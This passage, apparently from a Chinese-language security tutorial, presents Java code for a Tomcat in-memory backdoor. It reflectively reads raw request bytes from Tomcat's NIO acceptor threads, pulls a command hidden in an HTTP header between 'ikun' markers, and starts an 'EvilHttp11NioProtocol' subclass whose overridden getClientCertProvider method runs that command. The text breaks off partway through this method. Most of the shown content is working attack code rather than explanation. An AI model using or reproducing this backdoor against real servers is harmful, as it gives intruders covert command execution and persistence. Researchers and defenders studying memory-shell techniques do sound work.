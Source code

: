获取参数代码如下：

```plain
// 从 socket 中获取参数
// 位置 Thread.getThreads()[15].target.this$0.pollers[0].selector.channelArray[1].attachment.socket.appReadBufHandler.byteBuffer.hb
public String getRequest() {
    // 获取当前线程的所有线程
    Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
    for (Thread thread : threads) {
        try {
            // 需要获取线程的特征包含 Acceptor
            if (thread.getName().contains("Acceptor") && thread.getName().contains("http-nio")) {
                Object[] nioEndpointPollerArrays = (Object[]) getField(getField(getField(thread,"target"),"this$0"),"pollers");
                for (Object nioEndpointPollerArray : nioEndpointPollerArrays){
                    Object[] channelArrays = (Object[]) getField(getField(nioEndpointPollerArray,"selector"),"channelArray");
                    for (Object obj : channelArrays){
                        if (obj != null){
                            byte[] bytes = (byte[]) getField(getField(getField(getField(getField(obj,"attachment"),"socket"),"appReadBufHandler"),"byteBuffer"),"hb");
                            String cmd = new String(bytes);
                            return cmd;
                        }
                    }
                }
            }
        } catch (Exception e) {
            continue;
        }
    }
    return "";
}

// 解析字符串获取 cmd 字符串
public String getCmd(String str){
    // HTTP 报文头中需要添加例如，cmd: ikuncalcikun，意为命令执行启动计算器
    String cmd = str.substring(str.indexOf("ikun")+4 , str.lastIndexOf("ikun"));
    return cmd;
}
```

## 补充

### EvilHttp11NioProtocol 类的编写

我们需要重写 getClientCertProvider() 方法。

```plain
// 恶意 EvilHttp11NioProtocol 对象
    public class EvilHttp11NioProtocol extends Http11NioProtocol {
        public EvilHttp11NioProtocol() {
            super();
        }
        // 重写 getClientCertProvider
        // 关键位置 -> process:790, AbstractProtocol$ConnectionHandler (org.apache.coyote)
        // 代码段 -> processor.setSslSupport(wrapper.getSslSupport(getProtocol().getClientCertProvider()));
        @Override
        public String getClientCertProvider() {
            // evil code
            try {
                String cmd = getCmd(getRequest());
                System.out.println(cmd);
```